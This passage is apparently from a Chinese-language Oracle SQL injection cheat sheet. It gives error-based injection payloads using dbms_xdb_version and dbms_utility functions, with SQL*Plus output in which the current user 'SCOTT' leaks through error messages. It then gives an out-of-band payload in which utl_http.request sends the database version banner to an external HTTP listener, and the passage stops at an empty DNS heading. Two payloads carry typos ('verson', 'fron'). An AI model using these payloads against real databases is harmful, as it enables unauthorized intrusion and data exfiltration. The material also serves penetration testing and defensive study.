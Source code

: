 * 使用dbms_xdb_version.checkin()&makeversioned()&uncheckout()

```sql
' and (select dbms_xdb_verson.checkin((select user from dual)) from dual) is not null --

SQL> select user from dual where (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-31001: 资源句柄或路径名 "SCOTT" 无效

SQL> select user from dual where (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-31001: 资源句柄或路径名 "SCOTT" 无效

SQL> select user from dual where (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-31001: 资源句柄或路径名 "SCOTT" 无效
```

* dbms_utility.sqlid_to_sqlhash()

```sql
' and (select dbms_utility.sqlid_to_sqlhash((select user from dual)) fron dual) is not null --

SQL> select user from dual where (select dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null;

第 1 行出现错误:
ORA-13797: 指定了无效的 SQL ID, SCOTT
ORA-06512: 在 "SYS.DBMS_UTILITY", line 1218
```

> 11g对utl_inaddr&utl_http默认存在ACL限制；

## Oracle 带外通信获取查询结果的方法

可以使用Oracle发送HTTP和DNS请求，并将查询结果带到请求中，然后监测外网服务器的HTTP和DNS日志，从日志中获取查询结果，通过这种方式将盲注转换成可以直接简便的获取查询结果的方式。

### HTTP

* utl_http.request()
```sql
' and 1=utl_http.request('http://127.0.0.1:8086/'||(select banner from sys.v_$version where rownum=1)) --

```

### DNS
